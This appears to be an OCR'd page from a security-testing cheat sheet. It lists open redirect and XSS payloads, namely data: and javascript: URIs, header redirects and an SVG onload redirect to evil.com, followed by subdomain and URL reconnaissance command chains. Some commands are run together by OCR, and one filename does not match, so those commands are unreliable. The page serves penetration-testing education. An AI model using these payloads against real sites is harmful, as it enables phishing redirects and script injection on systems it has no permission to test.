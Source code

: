 ```
https://example.com/redirect?url=data:text/html;

base64,

PHNjcmlwdD5hbGVydCgnVGhpcyBpcyBhbiBhdHRhY2snKTwvc2NyaXB0Pg==
```

16. JavaScript Scheme Redirects

```
https://example.com/redirect?url=javascript:alert('XSS');//
```

17. Open Redirect via HTTP Header

```bash
Location: http://malicious.com 
X-Forwarded-Host: evil.com Refresh: 0; 
url=http://malicious.com
```

18. **Path Traversal Hybrids**

```
/redirect?url=/../../https://evil.com
```

19. **Using svg paylaod**

```html
<?xml version="1.0" encoding="UTF-8" standalone="yes"?> 
<svg onload="window.location='https://evil.com/'" xmlns="http://www.w3.org/2000/svg"></svg>
```

### **Automated Tools for Scanning**

#### Reconnaissance

Collect multiple active and passive URLs from all available tools and sources.

> **For single domain:**

```bash
echo target.com | gau --o urls1.txt echo target.com | katana -d 2 -o urls2.txt 

echo target.com | urlfinder -o urls3.txt echo target.com | hakrawler > urls4.txt
```

> **For multiple subdomains:**

```bash
subfinder -d target.com -all -o subdomains1.txt 
assetfinder --subs-only target.com > subdomains2.txt 
sort -u subdomains.txt subdomains2.txt -o uniqsubs.txt 
cat uniqsubs.txt | httpx-toolkit -o finallist.txt  

cat finallist.txt | gau --o urls1.txt
cat finallist.txt | katana -d 2 -o urls2.txt 
cat finallist.txt | urlfinder -o urls3.txt 
cat finallist.txt | hakrawler > urls4.txt
```

